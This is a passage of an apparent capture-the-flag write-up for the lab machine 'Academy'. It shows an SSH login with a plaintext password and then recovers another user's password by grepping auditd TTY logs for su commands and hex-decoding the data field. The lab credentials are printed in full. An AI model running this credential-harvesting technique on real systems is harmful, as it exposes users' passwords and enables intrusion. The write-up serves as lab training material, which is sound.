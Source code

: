       cry0l1t3@10.10.10.215's password: mySup3rP4s5w0rd!!
      $ bash
      cry0l1t3@academy:~$ cat user.txt
      ea657863************************

## Escalating to mrb3n

* user **cry0l1t3** is in `adm` group 

      cry0l1t3@academy:~$ groups
      cry0l1t3 adm
      cry0l1t3@academy:/home$ id
      uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

* **adm group :** adm Group is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group.
  * that means user **cry0l1t3** can read system logs.
  * understand all types of log in linux by [privacyangel.com](https://privacyangel.com/linux-log-files)
* there is a `audit log` dir which is suspiciou.
  * **[audit log](https://sematext.com/blog/auditd-logs-auditbeat-elasticsearch-logsene/) :** can use to learn about user activity, which could be used to boost efficiency, security, and performance.
  * audit logs create by linux [auditclt](https://linux.die.net/man/8/auditctl) service.
* **Note :** that audit logs store users commands inputs in `DATA` field in `hex` form.

* I grep all `su` commands from `audit logs` and found some interesting data

**Final result**

      cry0l1t3@academy:/var/log/audit$ grep -r -w su | grep data
      audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A

      cry0l1t3@academy:/var/log/audit$ grep -r -w su | grep data | awk -F= '{print $11}'
      6D7262336E5F41634064336D79210A

      cry0l1t3@academy:/var/log/audit$ echo $(grep -r -w su | grep data | awk -F= '{print $11}') | xxd -r -p
      mrb3n_Ac@d3my!

* so user with uid=1002 run su with there own password as command input eg. `su mrb3n_Ac@d3my!` thats why this log generated.
* viewing `/etc/passwd` i find out that `UID=1002` belong to user `mrb3n`.

### creds

`mrb3n:mrb3n_Ac@d3my!`

### su to mrb3n

```
cry0l1t3@academy:~$ su - mrb3n
Password: mrb3n_Ac@d3my!
$ bash
mrb3n@academy:~$ whoami;id
mrb3n
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```

